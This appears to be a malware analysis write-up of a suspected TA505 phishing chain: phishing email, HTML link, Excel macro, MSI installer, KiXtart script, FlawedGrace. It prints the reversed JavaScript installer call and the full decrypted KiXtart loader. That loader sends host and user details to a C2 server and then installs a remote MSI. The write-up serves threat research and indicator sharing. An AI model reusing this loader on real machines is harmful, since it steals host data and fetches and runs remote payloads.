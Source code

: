 # Summary
Suspected TA505 Phish
Attack flow
Phish -> HTML attachment /w link -> XLS /w macro -> MSI (Kixtart) -> MSI (Rebol) -> FlawedGrace

# Email
Sender: 	admin@commaxdiafon.com
Subject:  	Claim Processing 20210925
Received: 	from 196-60win.webimhosting.com (HELO webimhosting.com) ([217.195.196.60])

Contains an html attachment which contains a link to download a malicious XLS hxxps://cdn-8846-sharepoint-office.com/CL09302021_00137[.]xls 

# XLS (deaad3ea1c708cd99e41c4043169aa4d)
- Macro
    ```
    Function Auto_Open()
        Dim a As New ScriptControl
        a.Language = ActiveWorkbook.BuiltinDocumentProperties("Subject").Value
        a.AddCode (ActiveWorkbook.BuiltinDocumentProperties("Comments").Value)
    End Function
    ```
- Comments: eval('})"53.502.831.551//:ptth"(tcudorPllatsnI;2=leveLIU{))"rellatsnI.rellatsnIswodniW"(tcejbOXevitcA wen(htiw'.split('').reverse().join(''))
- Reversed: with(new ActiveXObject("WindowsInstaller.Installer")){UILevel=2;InstallProduct("hxxp://155.138.205.35")}

- Pulls down and executes MSI 

# MSI (84ec41afdc49c2ee8dff9ba07ba5c9a4)
- contains benign kixtart engine (named svchost.exe) and an encrypted and tokenized kixtart script (named svchost.bin)
	
# Kixtart Script (a176738655f7bd7270aa086db0f35451)
- Encrypted and tokenized 
- Developed a python script to decrypt and detokenize: https://github.com/jhumble/Kixtart-Detokenizer
- Full cleaned up kixtart script below
	
I wasn't able to coerce the C2 into giving me an additional payload, but other reporting indicates that it leads to another MSI containing a Rebol script, which downloads and executes FlawedGrace

# Detokenized Script
```
Function base64($string,$mode,$file)
	DIM $xml_object,$xml_doc,$stream_object,$strxml,$rc
	$xml_object =  createobject("MSXML2.DOMDocument.3.0") 
	if $mode
		$strxml = "<B64DECODE xmlns:dt="urn:schemas-microsoft-com:datatypes" dt:dt="bin.base64">" + $string + "</B64DECODE>"
		$rc = $xml_object.loadxml($strxml) 
		$base64 = $xml_object.selectsinglenode("B64DECODE") .nodetypedvalue
		if @errorexit (@error & )  endif 
		if $file
			$stream_object =  createobject("ADODB.Stream") 
			if @errorexit (@error & )  endif 
			$rc = $stream_object.open
			if @errorexit (@error & )  endif 
			$stream_object.type = 1
			$rc = $stream_object.write($base64) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
			$stream_object.savetofile($file,2) 
			exit (@error & ) 
		endif 
	else
		$stream_object =  createobject("ADODB.Stream") 
		if @errorexit (@error & )  endif 
		$rc = $stream_object.open
		if @errorexit (@error & )  endif 
		if  len($file)  and 0 =  exist($file) exit 2 endif 
		if $file
			$stream_object.type = 1
			$stream_object.loadfromfile($file) 
			if @errorexit (@error & )  endif 
		else
			$stream_object.type = 2
			$stream_object.charset = "iso-8859-1"
			$rc = $stream_object.writetext($string) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
		endif 
		$string = $stream_object.read
		$xml_doc = $xml_object.createelement("base64") 
		$xml_doc.datatype = "bin.base64"
		$xml_doc.nodetypedvalue = $string
		$base64 =  cstr($xml_doc.text) 
		$stream_object = ""
		$xml_doc = ""
		$xml_object = ""
	endif 
EndFunction

$wmicoll =  getobject("WinMgmts:root/cimv2") .execquery("Select * FROM Win32_Process") 

For each $wmiobj in $wmicoll
	$proccess = $proccess + "," + $wmiobj.name
Next

$http =  createobject("microsoft.xmlhttp") 
$http.open("GET","http://45.79.239.23/version.php?data=" + base64(@domain + ":" + @hostname + ":" + @userid + "|" + $proccess) ,Not 1) 
$http.send

if $http.responsebody <> 0
	$msi =  createobject("WindowsInstaller.Installer") 
	$msi.uilevel = 2
	$msi.installproduct($http.responsetext) 
endif```


